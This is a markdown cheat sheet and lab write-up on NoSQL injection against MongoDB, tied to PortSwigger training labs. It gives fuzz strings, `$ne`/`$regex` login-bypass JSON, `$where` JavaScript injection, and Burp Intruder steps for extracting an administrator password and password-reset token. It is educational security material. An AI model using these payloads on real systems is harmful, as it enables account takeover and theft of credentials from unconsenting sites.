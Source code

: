 # NoSQL - MongoDB  

## Identify NoSQL injection  

>Submit a fuzz string in the value of the JSON POST or GET web parameter.  
>Payload example strings for MongoDB:  

```
'
''
"
""
\'
'"`{
;$Foo}
$Foo \xYZ
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000.  
' && 0 && 'x
' && 1 && 'x
 'fizzy'||'1'=='1'
||1||
fizzy'||1||'
fizzy' && 0 && 'x
fizzy' && 1 && 'x
```  

>Determine the meta characters processed and breakng syntax, with true and false statements.  

>JavaScript condition payload evaluates to true, such as `'||'1'=='1`  

>Nnull character after the category value in MongoDB may ignore all characters after a null characters:  

```
%00
\u0000
```  

>Show sensitive database information with allways true statement `../filter?category=Gifts'||1||'`

## NoSQL operator injection  

>inject query operators to manipulate NoSQL queries:  

```
$where  
$ne 
$in 
$regex
```  

>Content Type Converter extension to automatically convert the request method and change a URL-encoded POST request to JSON.  

>`Content-Type` header to `application/json`  

>NoSQL bypass authentication using the following payload:  

```json
{
"username":{
"$ne":"invalid"
}
,"password":{
"$ne":"invalid"
}
}
```  

>NoSQL operator injection to bypass authentication:  

```json
{
	"username":{
		"$regex":"admin.*"
	},
	"password":{
		"$ne":""
	}
}
```  

>Send the request again. Notice that this successfully logs you in as the admin user.  

![portswigger_nosql_auth_bypass.png](/images/portswigger_nosql_auth_bypass.png)  

## NoSQL Data Extract  

>NoSQL query uses the `$where` operator, attempt to inject JavaScript functions into this query so it returns sensitive data.  

```
{"$where":"this.username == 'admin'"}

admin' && this.password.match(/\d/) || 'a'=='b
```  

>Identifying field names, by comparing results in responses.  

```
admin' && this.username!=' 
admin' && this.foo!='
```  

>[PortSwigger Lab: Exploiting NoSQL injection to extract data](https://portswigger.net/web-security/learning-paths/nosql-injection/exploiting-syntax-injection-to-extract-data/nosql-injection/lab-nosql-injection-extract-data)  
>Vulnerable MongoDB NoSQL database site.  

>URL Encode valid JavaScript payload in the user parameter `wiener'+'`  
>Identify the password length of administrator,  
>Change the user parameter to `administrator' && this.password.length < 9 || 'a'=='b` and URL encode payload.  

0. Change user parameter to `administrator' && this.password[§0§]=='§a§`,  Make sure to URL-encode the payload.  
1. Set two payload positions for password character position and password lowercase alphabet character.  
2. Cluster Bomb attack iterates all combinations   
3. Set payloads 1 as position password max length and 2 alphabet characters  
4. Start Intruder Attack  
5. Sort by payload position 1 and lenth results  
6. result of the password `ycpxhlee`  

![portswigger_nosql_auth_data_extract_Password.png](/images/portswigger_nosql_auth_data_extract_Password.png)  

>Exploiting NoSQL operator injection to extract unknown fields  

>NoSQL password payload, `{"$ne":"invalid"}` response indicates that the `$ne` operator has been accepted and the application is vulnerable.  

>determine the length of possible hidden fields:  

```JSON
{
"username":"carlos",
"password":{"$ne":""},
"$where":"function(){ if(Object.keys(this)[5].length == 1) return 1; else 0;}"
}
```  

>Send to intruder with where operator payload, to retrieve field parameter names from database.  
>Two payloads, first identifies the character position number, and the second identifies the character itself.  
>set the field key to `2` to identify second field in database, and so on...  

```json
{
	"username":"carlos",
	"password":{
		"$ne":"invalid"
	}, 
	"$where":"Object.keys(this)[2].match('^.{§§}§§.*')"
}

```  

>NoSQL Fields identified:  

```
[0] _id
[1] username
[2] password
[3] email
[4] passwordReset

```  
>Next Cluster bomb attack payload is to get value of found JSON parameters, password reset token `passwordReset`  

```
"$where":"this.passwordReset.match('^.{§§}§§.*')"
```

>obtained the field name `passwordReset` in first intruder attack  
>and second intruder attach payload above give the token to reset user password.  

>Browse to the target URL `/forgot-password?passwordReset=966fbc16def16921`  

>After Cluster bomb attack identified the case senitive JSON field and then value of the password reset token retrieved using intruder:

![portswigger_nosql_auth_data_extract_hidden_fields_and_values.png](/images/portswigger_nosql_auth_data_extract_hidden_fields_and_values.png)  

>[PortSwigger Lab: Exploiting NoSQL operator injection to extract unknown fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)  

## Timing based injection  

>Payload to determine vulnerable based on time delayed response: `{"$where": "sleep(5000)"}`  

----  

